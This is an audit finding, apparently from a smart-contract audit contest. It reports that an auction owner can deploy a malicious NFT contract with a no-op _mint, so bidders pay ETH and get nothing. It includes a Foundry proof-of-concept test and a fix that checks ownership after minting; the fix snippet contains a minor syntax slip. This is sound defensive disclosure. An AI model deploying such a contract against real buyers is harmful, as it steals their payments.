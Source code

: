 R-Nemes

high

# Auction owner can grief the auction bidders with a malicious MeritNFT

## Summary
It is possible to create a malicious MeritNFT in which the owner could override the `_mint` function to do nothing without reverting, thereby griefing the auction bidder by taking the purchase price and giving nothing in return.

## Vulnerability Detail
The provided test contract showcases the vulnerability. By creating a malicious MySuperHypedNFT contract, the `_mint` function is overridden to do nothing. When the `mint` function of the `MeritDutchAuction` is called, the malicious NFT contract can successfully complete the minting process without raising an error or reverting, causing the auction purchaser to lose their ETH payment without receiving the NFT.

## Impact
The impact of this vulnerability is that the auction bidder spends ETH on the NFT but ends up receiving nothing in return.

## Code Snippet
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/MeritNFT.sol";
import "../src/MeritDutchAuction.sol";

contract MySuperHypedNFT is MeritNFT {
    constructor(
        string memory name,
        string memory symbol,
        string memory baseURI,
        address uriSetter,
        address auction
    ) MeritNFT(name, symbol, baseURI, uriSetter, auction) {}

    function _mint(address to, uint256 tokenId) internal override {
    }
}

contract AttackTest is Test {
    string constant NAME = "Merit NFT";
    string constant SYMBOL = "MERIT";
    string constant BASE_URI = "https://example.com/";

    address constant wallet1 = address(0xffffffff1);
    address constant wallet2 = address(0xffffffff2);
    address constant wallet3 = address(0xffffffff3);
    address constant owner = address(0xffffffff4);
    address constant uriSetter = address(0xffffffff5);

    uint256 constant START_PRICE = 1e18;
    uint256 constant END_PRICE = 0.1e18;
    uint256 constant AUCTION_DURATION = 2 hours;
    uint256 constant STEP_SIZE = 12 minutes;

    uint256 public startTime;
    uint256 public endTime;

    MeritNFT public nft;
    MeritDutchAuction public auction;

    function setUp() public {
        vm.startPrank(owner);

        startTime = block.timestamp + 1 days;
        endTime = startTime + AUCTION_DURATION;

        auction = new MeritDutchAuction(
            START_PRICE,
            END_PRICE,
            startTime,
            endTime,
            STEP_SIZE
        );

        nft = new MySuperHypedNFT(NAME, SYMBOL, BASE_URI, uriSetter, address(auction));
        auction.setNFT(address(nft));

        // Gift eth to test addresses
        vm.deal(wallet1, 1000000e18);
        vm.deal(wallet2, 1000000e18);
        vm.deal(wallet3, 1000000e18);

        vm.stopPrank();
    }

    function testMaliciousNFT() public {
        vm.startPrank(wallet1);
        uint256 balanceBefore = wallet1.balance;
        vm.warp(startTime);
        auction.mint{value: START_PRICE}(1);
        uint256 balanceAfter = wallet1.balance;

        assertEq(auction.minted(), 1);
        assertEq(auction.totalRaised(), START_PRICE);
        assertEq(address(auction).balance, START_PRICE);
        assertEq(auction.mintedPerAddress(wallet1), 1);

        vm.expectRevert("ERC721: invalid token ID"); // Wallet1 does not own the NFT
        nft.ownerOf(1);

        assertEq(balanceBefore - balanceAfter, START_PRICE); // Wallet1 did pay the price
        vm.stopPrank();
    }

}

```

## Tool used
Manual Review + Foundry

## Recommendation
To mitigate this vulnerability, it is recommended to add a check after the call to `nft.mint` to ensure that the ownership of the minted token has been successfully assigned to the purchaser. This check can be implemented as follows:

[MeritDutchAuction.sol#L156C1-L159C10](https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L156C1-L159C10)

```solidity
for(uint256 i = 0; i < amount; i++) {
	// Mint the amount of NFTs to the sender
	nft.mint(mintedBefore + i + 1, msg.sender);
	require(nft.ownerOf(mintedBefore + i + 1) == msg.sender(), "Mint failed");
}
```
By adding this check, the mint function will revert if the ownership of the minted token is not successfully assigned to the purchaser, preventing the scenario where the purchaser loses their payment without receiving the NFT.

This recommendation ensures the integrity of the auction process and protects the purchasers from potential malicious actions by the NFT contract owner.